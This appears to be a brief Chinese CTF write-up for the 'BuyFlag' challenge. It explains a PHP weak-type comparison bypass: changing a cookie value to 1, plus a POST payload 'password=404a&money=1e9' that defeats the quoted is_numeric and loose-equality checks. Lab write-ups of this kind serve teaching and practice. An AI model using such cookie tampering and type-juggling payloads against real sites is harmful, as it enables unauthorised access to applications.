 # [极客大挑战 2019]BuyFlag

## 知识点

`php弱类型比较`

## 解题

``

更改`Cookie`中的`user`值为`1`

根据源代码的要求

```php
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

传入`password`和`money`

绕过后的`payload`

```
password=404a&money=1e9
```